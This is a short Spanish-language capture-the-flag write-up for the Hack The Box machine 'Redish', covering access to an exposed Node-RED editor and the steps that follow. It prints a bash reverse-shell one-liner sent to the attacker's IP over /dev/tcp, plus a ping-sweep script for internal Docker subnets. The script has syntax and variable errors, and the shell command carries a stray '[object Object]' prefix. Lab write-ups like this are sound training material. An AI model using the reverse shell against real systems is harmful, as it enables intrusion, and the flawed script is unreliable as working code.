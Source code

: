 # Redish

## NMAP

![image](https://github.com/gecr07/RedishHTB/assets/63270579/325411cf-e1b7-49a2-b667-067b49606bb8)

![image](https://github.com/gecr07/RedishHTB/assets/63270579/911975ed-cde7-47ac-8df7-904c60b548c9)

Ahora (no hubiera sabido como la verdad) visitamos el link.

> http://10.10.10.94:1880/red/e72c52ec2ba93670b5b9fcc018afcdff

![image](https://github.com/gecr07/RedishHTB/assets/63270579/e38e48cf-9265-49b5-a93c-1bd6a15f2ffb)


Una vez dentro pues nos damos cuenta que la shell esta muy precaria ( y asi lo hacen todos los writes que he visto nos mandamos otro shell

```
[object Object]bash -c "bash -i >& /dev/tcp/10.10.14.28/1234 0>&1"
```

![image](https://github.com/gecr07/RedishHTB/assets/63270579/484e0234-1c4e-4ba5-b818-23bd4fb61d5a)

Descubrimiento de puertos.

```
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo...\n"
    exit 1
}

trap ctrl_c INT


networks=(172.18.0 172.19.0)


tput civis; for network in ${networks[@]}
    for i in $(seq 1 254); do
        timeout 1 bash -c "ping -c 1 $networks.$i" &>/dev/null && echo -e "\t[+] Host $network.$i -ACTIVE" &
    done; wait 

done; tput cnorm
```










































































































